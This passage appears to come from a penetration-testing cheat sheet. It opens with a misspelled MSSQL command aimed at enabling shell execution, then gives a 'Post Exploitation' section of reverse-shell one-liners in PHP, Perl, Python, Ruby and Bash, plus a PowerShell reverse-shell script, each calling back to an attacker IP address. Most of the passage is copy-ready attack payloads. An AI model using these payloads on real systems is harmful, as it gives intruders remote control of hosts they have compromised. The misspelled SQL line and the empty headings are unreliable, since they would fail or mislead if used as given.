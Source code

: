 `EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`

#### Jenkins

\#\#

## Post Exploitation

### Reverse Shell

#### PHP Reverse Shell

```text
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Perl Reverse Shell

```text
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
​
```

#### Python Reverse Shell

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Ruby Reverse Shell

```text
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Bash Reverse Shell

```text
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Powershell Reverse Shell

Create a simple powershell script called reverse.ps1:

```text
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}
```

